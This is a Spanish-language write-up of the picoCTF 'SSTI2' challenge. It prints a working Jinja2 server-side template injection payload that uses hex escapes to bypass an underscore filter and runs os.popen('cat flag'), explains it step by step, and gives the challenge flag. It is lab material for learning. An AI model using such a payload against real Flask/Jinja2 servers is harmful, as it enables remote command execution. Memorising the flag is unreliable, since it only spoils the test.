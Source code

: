 ## Reto: SSTI2
### Descripción:
¡Hice un sitio web genial donde puedes anunciar lo que quieras! Leí sobre la desinfección de entrada, así que ahora elimino cualquier tipo de caracteres que podrían ser un problema :)¡Escuché que la plantilla es una forma genial y modular de crear aplicaciones web! Mira mi sitio web [aquí](http://shape-facility.picoctf.net:57812/)¡!
### Solución
SSTI es una **vulnerabilidad web** que ocurre cuando una aplicación **interpreta entradas del usuario como parte de una plantilla de servidor**, sin sanitizarlas adecuadamente.

Esto le permite a un atacante **inyectar código malicioso** en el motor de plantillas para **leer datos, ejecutar comandos o incluso tomar control del servidor**.

Pidiendo ayuda a chat de como debía manejar esto y especificando que buscaba una bandera me devolvió el siguiente `payload`, que se describe paso a paso:

```js
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')() }}
```


### 1. `request`

- **Objeto `request`**: se refiere a la solicitud HTTP en frameworks como **Flask**.    
- Este objeto está disponible en el entorno de plantillas **Jinja2**.

---

### 2. `|attr('application')`

- **Obtiene el atributo `application`** del objeto `request`.
- En **Flask**, esto devuelve la instancia de la aplicación **WSGI** (`Flask`).    
- Esto es crucial porque desde ahí se puede acceder a más atributos globales del entorno.

---

### 3. `|attr('__globals__')`
- **Accede al diccionario de variables globales** dentro del entorno del template.    
- Esto normalmente no es accesible directamente, pero aquí se hace gracias al motor de plantillas.

---

### 4. `|attr('__getitem__')('__builtins__')`

- Usa **`__getitem__`** (el método de acceso por índice) para obtener el diccionario `__builtins__`.
- `__builtins__` contiene funciones como `print`, `open`, `eval`, `__import__`, etc.
- Acceder a esto permite al atacante "hackear" el entorno y obtener funciones poderosas.

---

### 5. `|attr('__getitem__')('__import__')('os')`

- Aquí se accede a la función **`__import__`** dentro de `__builtins__`.
- Luego se llama `__import__('os')`, que **importa el módulo `os`** de Python    
- Ya se tiene acceso al **sistema operativo** desde el template.

---

### 6. `|attr('popen')('cat flag')`

- Usa `os.popen('cat flag')`: abre un subproceso y ejecuta el comando **`cat flag`**.
- Este comando **lee el contenido del archivo `flag`** (muy común en retos CTF).
- `popen` permite ejecutar comandos del sistema operativo.

---

### 7. `|attr('read')()`

- Finalmente se llama `.read()` sobre el resultado del **`popen()`**.
- Esto **lee el contenido devuelto por el comando `cat flag`**.



Al pegarlo en la pagina donde nos dirigía, nos muestra la bandera:
```flag
 picoCTF{sst1_f1lt3r_byp4ss_eb2a60e7}
```


### Notas adicionales
Al ser la primera vez trabajando con este tipo de ataque, la mejor manera de solucionarlo es obtener ayuda de inteligencia artificial, para poder tener una guía de como realizar un procedimiento, o en este caso, hasta poder resolver el problema al primer intento, claramente especificando que es lo que hace, para poder aprender y manejar problemas siguientes.
### Referencias

[chatGPT](https://chatgpt.com/)
